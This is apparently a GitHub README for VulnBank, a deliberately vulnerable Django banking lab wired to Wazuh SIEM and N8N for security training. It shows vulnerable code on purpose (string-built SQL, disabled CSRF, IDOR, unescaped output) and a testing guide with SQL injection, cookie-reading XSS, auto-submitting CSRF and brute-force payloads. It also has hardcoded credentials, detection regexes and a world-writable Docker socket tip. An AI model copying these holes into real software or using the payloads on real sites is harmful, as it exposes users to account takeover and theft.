




# 🏦 VulnBank Security Testing Lab

<div align="center">


**A deliberately vulnerable banking application for security research and SIEM testing**

[Features](#-features) • [Quick Start](#-quick-start) • [Installation](#-installation) • [Wazuh Integration](#-wazuh-integration) • [Vulnerabilities](#-intentional-vulnerabilities) • [Testing Guide](#-security-testing-guide)

</div>

---

## ⚠️ Critical Warning

> **This application contains intentional security vulnerabilities for educational purposes only.**
> 
> - ❌ **NEVER** deploy to production environments
> - ❌ **NEVER** expose to the internet
> - ❌ **NEVER** use with real data
> - ✅ **ONLY** use in isolated lab environments
> - ✅ **ONLY** for authorized security testing and research

---

## 📋 Table of Contents

- [Features](#-features)
- [Architecture](#-architecture)
- [Prerequisites](#-prerequisites)
- [Quick Start](#-quick-start)
- [Detailed Installation](#-installation)
- [Wazuh SIEM Integration](#-wazuh-integration)
- [Test Accounts](#-test-accounts)
- [Intentional Vulnerabilities](#-intentional-vulnerabilities)
- [Security Testing Guide](#-security-testing-guide)
- [Monitoring and Alerts](#-monitoring-and-alerts)
- [Troubleshooting](#-troubleshooting)
- [Contributing](#-contributing)
- [License](#-license)

---

## ✨ Features

### 🎯 Security Research Platform
- **Deliberately Vulnerable**: Multiple OWASP Top 10 vulnerabilities implemented
- **Real-world Scenarios**: Mimics actual banking application architecture
- **SIEM Integration**: Pre-configured Wazuh monitoring rules
- **Docker Containerized**: Fully isolated testing environment
- **Educational Focus**: Perfect for security training and penetration testing practice

### 🔍 Monitoring Capabilities
- Real-time Docker container monitoring
- Application log collection and analysis
- Database query logging
- File integrity monitoring (FIM)
- Network traffic analysis
- Custom security event detection rules

### 📊 Technology Stack
- **Backend**: Django 4.2 (Python)
- **Database**: PostgreSQL 15
- **Containerization**: Docker & Docker Compose
- **SIEM**: Wazuh Agent Integration
- **Frontend**: HTML/CSS (Minimal UI)

---

## 🏗️ Architecture

```
┌─────────────────────────────────────────────────────────────┐
│                     Host System (Ubuntu 24.04)              │
│                                                             │
│  ┌──────────────────────────────────────────────────────┐  │
│  │              Wazuh Agent                             │  │
│  │  ┌────────────────────────────────────────────┐     │  │
│  │  │  Log Collection & Monitoring              │     │  │
│  │  │  • Docker Events                          │     │  │
│  │  │  • Container Logs                         │     │  │
│  │  │  • Application Logs                       │     │  │
│  │  │  • File Integrity Monitoring              │     │  │
│  │  └────────────────────────────────────────────┘     │  │
│  └──────────────────────────────────────────────────────┘  │
│                            ↓                                │
│  ┌──────────────────────────────────────────────────────┐  │
│  │         Docker Network: vulnbank-lab_bank_network    │  │
│  │                                                      │  │
│  │  ┌─────────────────┐      ┌────────────────────┐   │  │
│  │  │  Web Container  │      │   DB Container     │   │  │
│  │  │  vulnbank-web   │◄────►│  vulnbank-db       │   │  │
│  │  │  Django 4.2     │      │  PostgreSQL 15     │   │  │
│  │  │  Port: 8000     │      │  Port: 5432        │   │  │
│  │  └─────────────────┘      └────────────────────┘   │  │
│  └──────────────────────────────────────────────────────┘  │
└─────────────────────────────────────────────────────────────┘
                            ↓
                  Wazuh Manager (10.42.0.245)
                  • Rule Processing
                  • Alert Generation
                  • Dashboard Visualization
```

---

## 📦 Prerequisites

### Required Software
- **Ubuntu 24.04** (or compatible Linux distribution)
- **Docker** (version 20.10 or higher)
- **Docker Compose** (version 2.0 or higher)
- **Wazuh Agent** (version 4.x)
- **Wazuh Manager** (accessible on network)

### System Requirements
- **RAM**: Minimum 4GB (8GB recommended)
- **Disk**: 10GB free space
- **CPU**: 2+ cores recommended
- **Network**: Isolated lab network

### Check Prerequisites

```bash
# Check Docker
docker --version
docker-compose --version

# Check Wazuh Agent
sudo systemctl status wazuh-agent

# Check available resources
free -h
df -h
```

---

## 🚀 Quick Start

Get VulnBank running in 5 minutes:

```bash
# 1. Clone or create project directory
mkdir -p ~/Documents/vulnbank-lab && cd ~/Documents/vulnbank-lab

# 2. Download all project files (see Installation section)

# 3. Start the application
docker-compose up -d

# 4. Access VulnBank
firefox http://localhost:8000
```
## Project Screenshots

### Login Page

*VulnBank authentication page with intentional vulnerabilities*

### Dashboard

*User account dashboard showing balance and recent transactions*

### Transfer Interface

*Transfer money interface vulnerable to CSRF and race conditions*

### Wazuh Monitoring

*Real-time security monitoring showing detected attacks*

### Docker Containers

*VulnBank running in Docker containers*

### N8N Telegram Bot

*Wazuh alert triggered by SQL injection attempt*

### N8N Down Time Detection

*Multiple failed login attempts detected by Wazuh*

**Default Login**: `admin` / `admin123`

---

## 📥 Installation

### Step 1: Create Project Structure

```bash
# Create main directory
mkdir -p ~/Documents/vulnbank-lab
cd ~/Documents/vulnbank-lab

# Create subdirectories
mkdir -p vulnbank banking templates
```

### Step 2: Configuration Files

Create the following files in the project root:

#### `docker-compose.yml`
```yaml
version: '3.8'

services:
  db:
    image: postgres:15-alpine
    environment:
      POSTGRES_DB: vulnbank
      POSTGRES_USER: bankuser
      POSTGRES_PASSWORD: insecure123
    volumes:
      - postgres_data:/var/lib/postgresql/data
    networks:
      - bank_network

  web:
    build: .
    command: python manage.py runserver 0.0.0.0:8000
    volumes:
      - .:/app
    ports:
      - "8000:8000"
    environment:
      - DEBUG=True
      - SECRET_KEY=super-secret-key-dont-use-in-prod
    depends_on:
      - db
    networks:
      - bank_network

volumes:
  postgres_data:

networks:
  bank_network:
    driver: bridge
```

#### `Dockerfile`
```dockerfile
FROM python:3.11-slim

WORKDIR /app

RUN apt-get update && apt-get install -y \
    postgresql-client \
    && rm -rf /var/lib/apt/lists/*

COPY requirements.txt .
RUN pip install --no-cache-dir -r requirements.txt

COPY . .

RUN chmod +x /app/entrypoint.sh

ENTRYPOINT ["/app/entrypoint.sh"]
```

#### `requirements.txt`
```
Django==4.2.0
psycopg2-binary==2.9.9
django-cors-headers==4.3.1
```

#### `entrypoint.sh`
```bash
#!/bin/bash

echo "Waiting for postgres..."
while ! pg_isready -h db -p 5432 > /dev/null 2>&1; do
  sleep 1
done
echo "PostgreSQL started"

python manage.py migrate --noinput
python manage.py shell -c "
from django.contrib.auth.models import User
from banking.models import Account

if not User.objects.filter(username='admin').exists():
    admin = User.objects.create_superuser('admin', 'admin@vulnbank.local', 'admin123')
    Account.objects.create(user=admin, account_number='1000000001', balance=50000.00)

if not User.objects.filter(username='alice').exists():
    alice = User.objects.create_user('alice', 'alice@vulnbank.local', 'password123')
    Account.objects.create(user=alice, account_number='1000000002', balance=1500.00)

if not User.objects.filter(username='bob').exists():
    bob = User.objects.create_user('bob', 'bob@vulnbank.local', 'password123')
    Account.objects.create(user=bob, account_number='1000000003', balance=2500.00)
"

exec "$@"
```

```bash
# Make entrypoint executable
chmod +x entrypoint.sh
```

### Step 3: Django Application Files

Refer to the complete setup guide for all Django files, or download from the repository.

### Step 4: Build and Run

```bash
# Build containers
docker-compose up --build

# Or run in background
docker-compose up -d

# Check status
docker-compose ps
```

### Step 5: Verify Installation

```bash
# Check containers are running
docker ps --filter "name=vulnbank-lab"

# Test web access
curl http://localhost:8000

# View logs
docker-compose logs -f
```

---

## 🛡️ Wazuh Integration

### Agent Configuration

#### 1. Install Wazuh Agent (if not installed)

```bash
# Add Wazuh repository
curl -s https://packages.wazuh.com/key/GPG-KEY-WAZUH | gpg --no-default-keyring --keyring gnupg-ring:/usr/share/keyrings/wazuh.gpg --import && chmod 644 /usr/share/keyrings/wazuh.gpg

echo "deb [signed-by=/usr/share/keyrings/wazuh.gpg] https://packages.wazuh.com/4.x/apt/ stable main" | sudo tee -a /etc/apt/sources.list.d/wazuh.list

sudo apt-get update
sudo apt-get install wazuh-agent
```

#### 2. Configure Docker Access

```bash
# Add wazuh user to docker group
sudo usermod -aG docker wazuh

# Restart Docker
sudo systemctl restart docker
```

#### 3. Configure Log Collection

Edit `/var/ossec/etc/ossec.conf` and add:

```xml
<ossec_config>
  
  <!-- Docker Events Monitoring -->
  <localfile>
    <log_format>command</log_format>
    <command>docker events --format '{{json .}}' 2>/dev/null</command>
    <frequency>60</frequency>
  </localfile>

  <!-- VulnBank Container Status -->
  <localfile>
    <log_format>command</log_format>
    <command>docker ps --filter "name=vulnbank-lab" --format "VulnBank_Container: {{.Names}} | Status: {{.Status}} | Ports: {{.Ports}}" 2>&1</command>
    <frequency>180</frequency>
  </localfile>

  <!-- VulnBank Container Stats -->
  <localfile>
    <log_format>command</log_format>
    <command>docker stats --no-stream --filter "name=vulnbank-lab" --format "VulnBank_Stats: {{.Name}} | CPU={{.CPUPerc}} | Memory={{.MemUsage}}" 2>&1</command>
    <frequency>300</frequency>
  </localfile>

  <!-- VulnBank Web Application Logs -->
  <localfile>
    <log_format>command</log_format>
    <command>docker logs --tail 30 --since 30s vulnbank-lab-web-1 2>&1 | head -30</command>
    <frequency>30</frequency>
  </localfile>

  <!-- VulnBank Database Logs -->
  <localfile>
    <log_format>command</log_format>
    <command>docker logs --tail 50 --since 60s vulnbank-lab-db-1 2>&1 | grep -E "ERROR|FATAL|WARNING|statement" | head -20</command>
    <frequency>60</frequency>
  </localfile>

  <!-- File Integrity Monitoring -->
  <syscheck>
    <directories check_all="yes" realtime="yes">/home/YOUR_USERNAME/Documents/vulnbank-lab</directories>
    <ignore>/home/YOUR_USERNAME/Documents/vulnbank-lab/.git</ignore>
    <ignore type="sregex">__pycache__|\.pyc$|\.log$</ignore>
  </syscheck>

</ossec_config>
```

**⚠️ Replace `YOUR_USERNAME` with your actual username!**

#### 4. Restart Wazuh Agent

```bash
sudo systemctl restart wazuh-agent
sudo systemctl status wazuh-agent
```

### Manager Configuration (Custom Rules)

On your **Wazuh Manager**, add custom detection rules:

```bash
# SSH to Wazuh Manager
ssh user@wazuh-manager-ip

# Edit local rules
sudo nano /var/ossec/etc/rules/local_rules.xml
```

Add VulnBank detection rules:

```xml
<group name="vulnbank,web,attack,">

  <!-- SQL Injection Detection -->
  <rule id="100010" level="12">
    <match>SELECT|UNION|DROP|INSERT|DELETE|UPDATE</match>
    <regex type="pcre2">(?i)(union.*select|select.*from.*where|drop.*table|'.*or.*'.*=.*'|--|admin'--)</regex>
    <description>SQL Injection attempt detected in VulnBank</description>
    <mitre>
      <id>T1190</id>
    </mitre>
  </rule>

  <!-- Brute Force Detection -->
  <rule id="100041" level="10">
    <match>Invalid credentials|authentication failed</match>
    <frequency>5</frequency>
    <timeframe>120</timeframe>
    <description>Brute force attack detected</description>
    <mitre>
      <id>T1110</id>
    </mitre>
  </rule>

  <!-- IDOR Detection -->
  <rule id="100031" level="12">
    <match>account_id=</match>
    <frequency>10</frequency>
    <timeframe>120</timeframe>
    <description>IDOR enumeration attack detected</description>
    <mitre>
      <id>T1087</id>
    </mitre>
  </rule>

  <!-- XSS Detection -->
  <rule id="100020" level="10">
    <match type="pcre2">(?i)(script>|javascript:|onerror=|onload=)</match>
    <description>XSS attempt detected</description>
    <mitre>
      <id>T1059</id>
    </mitre>
  </rule>

</group>
```

```bash
# Restart Wazuh Manager
sudo systemctl restart wazuh-manager
```

---
## N8N Automated Monitoring & Recovery

Automated system administration using N8N workflows for monitoring VulnBank uptime and automated recovery.

### Architecture

N8N workflow monitors VulnBank health and automatically restarts containers when issues are detected, either on schedule or via chat triggers.

### Prerequisites
```bash
# N8N is already running on your system
docker ps | grep n8n

# Access N8N at: http://localhost:5678
```

### Workflow 1: Scheduled Health Check & Auto-Restart

**Purpose**: Check VulnBank health every 5 minutes and restart if down

**N8N Workflow Nodes**:

1. **Schedule Trigger** (Every 5 minutes)
```
   Cron: */5 * * * *
```

2. **Execute Command: Check VulnBank Status**
```bash
   docker ps --filter "name=vulnbank-lab" --format "{{.Names}}|{{.Status}}" | grep -c "Up"
```

3. **IF Node: Check if containers are running**
   - Condition: `{{ $json.stdout }} < 2`

4. **Execute Command: Restart VulnBank** (if down)
```bash
   cd /home/abdelkader-work-station/Documents/vulnbank-lab && docker-compose restart
```

5. **HTTP Request: Check Web App Response**
```
   URL: http://localhost:8000
   Method: GET
```

6. **Execute Command: Send Alert to Wazuh**
```bash
   logger -t n8n-vulnbank "VulnBank containers restarted automatically by N8N"
```

7. **Webhook: Notify Admin** (optional)
```json
   {
     "status": "restarted",
     "timestamp": "{{ $now }}",
     "service": "VulnBank"
   }
```

### Workflow 2: Chat-Triggered Container Management

**Purpose**: Restart or check VulnBank status via Telegram/Slack/Discord

**N8N Workflow Nodes**:

1. **Telegram Trigger** (or Slack/Discord)
   - Command: `/vulnbank status` or `/vulnbank restart`

2. **Switch Node: Parse Command**
   - Route 0: status
   - Route 1: restart
   - Route 2: logs

3. **Execute Command: Get Status**
```bash
   docker ps --filter "name=vulnbank-lab" --format "Name: {{.Names}}\nStatus: {{.Status}}\nPorts: {{.Ports}}"
```

4. **Execute Command: Restart Containers**
```bash
   cd /home/abdelkader-work-station/Documents/vulnbank-lab && docker-compose restart && sleep 5 && docker ps --filter "name=vulnbank-lab"
```

5. **Execute Command: Get Recent Logs**
```bash
   docker logs --tail 20 vulnbank-lab-web-1
```

6. **Send Response to Chat**
```
   VulnBank Status:
   {{ $json.stdout }}
```

### Workflow 3: Security Event Response

**Purpose**: Auto-respond to Wazuh security alerts

**N8N Workflow Nodes**:

1. **Webhook Trigger** 
```
   URL: http://localhost:5678/webhook/wazuh-alert
   Method: POST
```

2. **Function Node: Parse Wazuh Alert**
```javascript
   const ruleId = $input.item.json.rule.id;
   const level = $input.item.json.rule.level;
   const description = $input.item.json.rule.description;
   
   return {
     json: {
       ruleId: ruleId,
       level: level,
       description: description,
       shouldRestart: level >= 12
     }
   };
```

3. **IF Node: Critical Alert?**
   - Condition: `{{ $json.level }} >= 12`

4. **Execute Command: Isolate Container** (critical alerts)
```bash
   docker network disconnect vulnbank-lab_bank_network vulnbank-lab-web-1
```

5. **Execute Command: Take Snapshot**
```bash
   docker commit vulnbank-lab-web-1 vulnbank-forensics:$(date +%Y%m%d-%H%M%S)
```

6. **Telegram/Slack Notification**
```
   🚨 CRITICAL SECURITY ALERT
   Rule: {{ $json.ruleId }}
   Description: {{ $json.description }}
   Action: Container isolated for forensics
```

### Setup Instructions

#### 1. Configure N8N to Access Docker
```bash
# Give N8N container docker socket access
docker stop n8n
docker run -d \
  --name n8n \
  -p 5678:5678 \
  -v ~/.n8n:/home/node/.n8n \
  -v /var/run/docker.sock:/var/run/docker.sock \
  --restart unless-stopped \
  docker.n8n.io/n8nio/n8n
```

#### 2. Import Workflows

Access N8N at `http://localhost:5678` and import these workflows:
```bash
# Download workflow templates (create these JSON files)
curl -o vulnbank-health-monitor.json https://your-repo/n8n-workflows/health-monitor.json
curl -o vulnbank-chat-control.json https://your-repo/n8n-workflows/chat-control.json
```

#### 3. Configure Wazuh Integration

Add webhook to Wazuh configuration on the **Manager**:
```bash
# On Wazuh Manager
sudo nano /var/ossec/etc/ossec.conf
```

Add integration:
```xml
<integration>
  <name>custom-webhook</name>
  <hook_url>http://your-workstation-ip:5678/webhook/wazuh-alert</hook_url>
  <level>10</level>
  <rule_id>100010,100011,100041,100051</rule_id>
  <alert_format>json</alert_format>
</integration>
```

#### 4. Test the Integration
```bash
# Test health check workflow manually
curl http://localhost:5678/webhook-test/vulnbank-health

# Simulate container failure
docker stop vulnbank-lab-web-1

# Wait 5 minutes - N8N should auto-restart
# Or trigger manually via chat: /vulnbank restart

# Verify restart
docker ps --filter "name=vulnbank-lab"
```

### Monitoring Dashboard

Create a monitoring script that shows N8N + VulnBank + Wazuh status:
```bash
nano ~/monitor-complete-stack.sh
```
```bash
#!/bin/bash

echo "=================================="
echo "Complete Stack Status"
echo "=================================="
echo ""

echo "1. VulnBank Containers:"
docker ps --filter "name=vulnbank-lab" --format "  {{.Names}} - {{.Status}}"
echo ""

echo "2. N8N Status:"
docker ps --filter "name=n8n" --format "  {{.Names}} - {{.Status}}"
echo ""

echo "3. Wazuh Agent:"
sudo systemctl status wazuh-agent --no-pager | grep "Active:"
echo ""

echo "4. Recent N8N Executions:"
# Check N8N logs for recent workflow runs
docker logs --tail 10 n8n 2>&1 | grep -E "Workflow|execution|started"
echo ""

echo "5. Recent Wazuh Alerts:"
sudo tail -5 /var/ossec/logs/alerts/alerts.log 2>/dev/null | grep -E "Rule|Description" || echo "  No recent alerts"
echo ""

echo "=================================="
```
```bash
chmod +x ~/monitor-complete-stack.sh
~/monitor-complete-stack.sh
```

### Benefits

- ✅ **Automated Recovery**: VulnBank auto-restarts on failure
- ✅ **Chat Control**: Manage VulnBank from Telegram/Slack
- ✅ **Security Response**: Auto-isolate containers on critical alerts
- ✅ **Uptime Monitoring**: 24/7 health checks
- ✅ **Forensics**: Auto-snapshot on security incidents
- ✅ **DevOps Integration**: Full automation workflow

### Advanced: Multi-Stage Response

Create escalation workflow:

1. **Stage 1**: Restart container (level 8-10 alerts)
2. **Stage 2**: Isolate container (level 10-12 alerts)
3. **Stage 3**: Full shutdown + snapshot (level 12+ alerts)
4. **Stage 4**: Notify security team + create incident ticket
---

## 👥 Test Accounts

| Username | Password | Account Number | Balance | Privileges |
|----------|----------|----------------|---------|------------|
| `admin` | `admin123` | 1000000001 | $50,000.00 | Administrator |
| `alice` | `password123` | 1000000002 | $1,500.00 | Standard User |
| `bob` | `password123` | 1000000003 | $2,500.00 | Standard User |

---

## 🐛 Intentional Vulnerabilities

### OWASP Top 10 Coverage

| # | Vulnerability | OWASP Category | Severity | Location |
|---|---------------|----------------|----------|----------|
| 1 | **SQL Injection** | A03:2021 | 🔴 Critical | Login form (`views.py`) |
| 2 | **CSRF Disabled** | A01:2021 | 🔴 Critical | All POST endpoints |
| 3 | **IDOR** | A01:2021 | 🔴 Critical | Dashboard (`?account_id=`) |
| 4 | **XSS (Stored)** | A03:2021 | 🟠 High | Transfer description field |
| 5 | **Broken Access Control** | A01:2021 | 🔴 Critical | Account enumeration |
| 6 | **Security Misconfiguration** | A05:2021 | 🟠 High | DEBUG=True, exposed secrets |
| 7 | **Weak Passwords** | A07:2021 | 🟡 Medium | No password validators |
| 8 | **Race Conditions** | A04:2021 | 🟠 High | Transfer endpoint |
| 9 | **Sensitive Data Exposure** | A02:2021 | 🟠 High | Hardcoded credentials |
| 10 | **No Rate Limiting** | A07:2021 | 🟡 Medium | All endpoints |

### Detailed Vulnerability List

#### 1. SQL Injection (Critical)
**Location**: `banking/views.py` - Login function
```python
query = f"SELECT * FROM auth_user WHERE username='{username}' AND password='{password}'"
```
**Exploit**: `username=admin'--&password=anything`

#### 2. Cross-Site Request Forgery (Critical)
**Location**: `vulnbank/settings.py`
```python
# CSRF middleware disabled
# 'django.middleware.csrf.CsrfViewMiddleware',
```
**Exploit**: External form can trigger transfers

#### 3. Insecure Direct Object Reference (Critical)
**Location**: `banking/views.py` - Dashboard function
```python
view_account_id = request.GET.get('account_id', account.id)
viewed_account = Account.objects.get(id=view_account_id)
```
**Exploit**: `/dashboard/?account_id=2`

#### 4. Cross-Site Scripting (High)
**Location**: `templates/dashboard.html`
```html
<td>{{ tx.description|safe }}</td>
```
**Exploit**: `<script>alert('xss')</script>` in transfer description

#### 5. Race Condition (High)
**Location**: `banking/views.py` - Transfer function
```python
# No transaction locking
account.balance -= amount
account.save()
```
**Exploit**: Simultaneous transfer requests

---

## 🧪 Security Testing Guide

### SQL Injection Testing

```bash
# Test 1: Authentication Bypass
curl -X POST http://localhost:8000/ \
  -d "username=admin'--&password=anything"

# Test 2: Union-based SQLi
curl -X POST http://localhost:8000/ \
  -d "username=admin' UNION SELECT 1,2,3--&password=test"

# Test 3: Error-based SQLi
curl -X POST http://localhost:8000/ \
  -d "username=admin' AND 1=CONVERT(int, (SELECT @@version))--&password=test"
```

### IDOR Testing

```bash
# Enumerate accounts
for i in {1..10}; do
  curl -b "sessionid=YOUR_SESSION" \
    "http://localhost:8000/dashboard/?account_id=$i"
done
```

### Brute Force Testing

```bash
# Automated login attempts
for pass in password admin123 test123 12345; do
  curl -X POST http://localhost:8000/ \
    -d "username=admin&password=$pass"
  sleep 1
done
```

### XSS Testing

```bash
# Stored XSS via transfer
curl -X POST http://localhost:8000/transfer/ \
  -b "sessionid=YOUR_SESSION" \
  -d "to_account=1000000002&amount=1&description=<script>alert(document.cookie)</script>"
```

### CSRF Testing

Create `csrf_attack.html`:
```html
<!DOCTYPE html>
<html>
<body onload="document.forms[0].submit()">
  <form action="http://localhost:8000/transfer/" method="POST">
    <input type="hidden" name="to_account" value="1000000001">
    <input type="hidden" name="amount" value="9999">
  </form>
</body>
</html>
```

### Race Condition Testing

```bash
# Concurrent transfer requests
for i in {1..10}; do
  curl -X POST http://localhost:8000/transfer/ \
    -b "sessionid=YOUR_SESSION" \
    -d "to_account=1000000001&amount=100" &
done
wait
```

---

## 📊 Monitoring and Alerts

### View Wazuh Alerts

```bash
# Real-time alert monitoring
sudo tail -f /var/ossec/logs/alerts/alerts.log

# Filter VulnBank alerts
sudo grep "vulnbank\|SQL Injection\|XSS\|IDOR" /var/ossec/logs/alerts/alerts.log

# View specific rule alerts
sudo grep "Rule: 100010\|Rule: 100020\|Rule: 100041" /var/ossec/logs/alerts/alerts.log
```

### Dashboard Access

Navigate to your Wazuh Dashboard:
- **URL**: `https://your-wazuh-manager:443`
- **Path**: Security Events → Events
- **Filter**: `rule.groups: vulnbank`

### Custom Monitoring Script

```bash
#!/bin/bash
# Save as ~/monitor-vulnbank.sh

echo "=== VulnBank + Wazuh Monitor ==="
echo ""
echo "Containers:"
docker ps --filter "name=vulnbank-lab" --format "  {{.Names}} - {{.Status}}"
echo ""
echo "Recent Alerts:"
sudo tail -20 /var/ossec/logs/alerts/alerts.log | grep -E "Rule:|Description:"
echo ""
echo "Application Access:"
curl -s -o /dev/null -w "HTTP Status: %{http_code}\n" http://localhost:8000
```

```bash
chmod +x ~/monitor-vulnbank.sh
~/monitor-vulnbank.sh
```

---

## 🔧 Troubleshooting

### Containers Won't Start

```bash
# Check Docker service
sudo systemctl status docker

# View container logs
docker-compose logs

# Rebuild containers
docker-compose down -v
docker-compose up --build
```

### Database Connection Issues

```bash
# Check database container
docker logs vulnbank-lab-db-1

# Access database directly
docker exec -it vulnbank-lab-db-1 psql -U bankuser -d vulnbank

# Reset database
docker-compose down -v
docker-compose up -d
```

### Wazuh Not Collecting Logs

```bash
# Check agent status
sudo systemctl status wazuh-agent

# Test configuration
sudo /var/ossec/bin/wazuh-control configtest

# View agent logs
sudo tail -f /var/ossec/logs/ossec.log

# Restart agent
sudo systemctl restart wazuh-agent
```

### Permission Errors

```bash
# Fix Docker socket permissions
sudo chmod 666 /var/run/docker.sock

# Add wazuh user to docker group
sudo usermod -aG docker wazuh
sudo systemctl restart wazuh-agent

# Fix file permissions
sudo chown -R wazuh:wazuh /var/ossec/wodles
```

### Port Already in Use

```bash
# Check what's using port 8000
sudo lsof -i :8000

# Change port in docker-compose.yml
# Change "8000:8000" to "8080:8000"
```

---

## 🛠️ Useful Commands

### Docker Management

```bash
# Start VulnBank
docker-compose up -d

# Stop VulnBank
docker-compose down

# View logs
docker-compose logs -f

# Restart containers
docker-compose restart

# Remove all data (reset)
docker-compose down -v

# Rebuild after changes
docker-compose up --build
```

### Application Management

```bash
# Access web container shell
docker exec -it vulnbank-lab-web-1 bash

# Run Django commands
docker exec -it vulnbank-lab-web-1 python manage.py shell

# View Django logs
docker logs -f vulnbank-lab-web-1

# Access database
docker exec -it vulnbank-lab-db-1 psql -U bankuser -d vulnbank
```

### Wazuh Management

```bash
# Check agent status
sudo /var/ossec/bin/wazuh-control status

# Restart agent
sudo systemctl restart wazuh-agent

# View alerts
sudo tail -f /var/ossec/logs/alerts/alerts.log

# Test log collection
sudo /var/ossec/bin/wazuh-logtest
```

---

## 📚 Additional Resources

### Documentation
- [Django Security Best Practices](https://docs.djangoproject.com/en/4.2/topics/security/)
- [OWASP Top 10](https://owasp.org/www-project-top-ten/)
- [Wazuh Documentation](https://documentation.wazuh.com/)
- [Docker Security](https://docs.docker.com/engine/security/)

### Learning Resources
- [OWASP WebGoat](https://owasp.org/www-project-webgoat/)
- [PortSwigger Web Security Academy](https://portswigger.net/web-security)
- [Wazuh Use Cases](https://wazuh.com/use-cases/)

### Similar Projects
